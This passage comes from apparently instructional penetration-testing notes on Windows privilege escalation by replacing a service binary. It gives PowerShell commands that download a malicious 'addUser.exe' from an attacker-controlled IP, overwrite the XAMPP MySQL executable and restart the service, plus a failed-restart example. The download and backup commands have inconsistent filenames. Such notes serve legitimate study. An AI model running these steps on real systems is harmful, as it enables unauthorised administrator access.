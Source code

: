{% tab title="3. Transfer" %}
{% code overflow="wrap" %}
```powershell
# Transfer the malicious binary to the target
iwr -uri http://192.168.45.231/addUser.exe -Outfile mysqld.exe
```
{% endcode %}
{% endtab %}

{% tab title="4. Replace" %}
```powershell
# Backup the original binary
> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
# Replace the original binary
> move .\addUser.exe C:\xampp\mysql\bin\mysqld.exe
```
{% endtab %}

{% tab title="5. Restart" %}
We can stop and then start the service:

```powershell
# Check the service's status
> Get-Service -Name 'mysql'

Status   Name   DisplayName
------   ----   -----------
Running  mysql  mysql

# Stop the service
> net stop mysql
> Stop-Service -Name 'mysql' -Force

# Start the service
> Start-Service -Name 'mysql'
```

Or restart it in one step (sometimes one approach might work while the other not):

```powershell
# Restart the service directly
> Restart-Service -Name 'mysql' -Force
```
{% endtab %}
{% endtabs %}

If the user does not have to restart the service but has the `SeShutDownPrivilege` assigned and the `StartMode` of the service is set to `Auto`, we can just reboot the system.

{% tabs %}
{% tab title="1. Failed Restart" %}
```powershell
> net stop mysql
System error 5 has occurred.

Access is denied.
```
{% endtab %}
